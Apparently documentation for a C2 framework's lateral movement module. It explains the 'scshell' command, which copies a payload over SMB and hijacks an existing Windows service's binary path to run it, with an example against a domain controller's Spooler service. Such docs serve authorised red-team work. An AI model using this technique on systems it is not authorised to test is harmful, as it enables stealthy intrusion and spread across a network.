

# Lateral Movement Modules <!-- omit from toc -->

## Contents <!-- omit from toc -->

- [Overview](#overview)
  - [scshell](#scshell)

## Overview

The lateral movement modules provide commands for moving between systems in a network. The module contains the following commands:

```
 * scshell                  Perform fileless lateral movement by modifying an existing remote service's binary path.
```

### scshell
Perform fileless lateral movement using [SCShell](https://github.com/Mr-Un1k0d3r/SCShell). The payload is copied to the target via SMB, the binary path of an existing service is temporarily modified to point to the payload, the service is started, and the original path is restored. No new service is created.

```
Usage  : scshell <target> <payload> [--service <service>] [--name <name>] [--share <share>]
Example: scshell dc01 bin/monarch.smb_x64.svc.exe --service Spooler --name update.exe

Required arguments:
  target                    STRING     Target system hostname or IP address.
  payload                   FILE       Path to the payload to execute on the target.

Optional arguments:
  --service service         STRING     Existing service to hijack (default: defragsvc).
  --name name               STRING     Filename for the payload on the target (default: name of the target service).
  --share share             STRING     Share used to copy the payload (default: ADMIN$).
```

> [!TIP]
> The payload should be a Service Executable (`.svc.exe`) that uses a SMB listener for C2 communication.

The payload is written to `\\<target>\<share>\<name>.exe` on the target system. After execution the service binary path is restored to its original value.

After a payload was executed using `scshell`. The built-in `link` command can be used to link the new agent. 

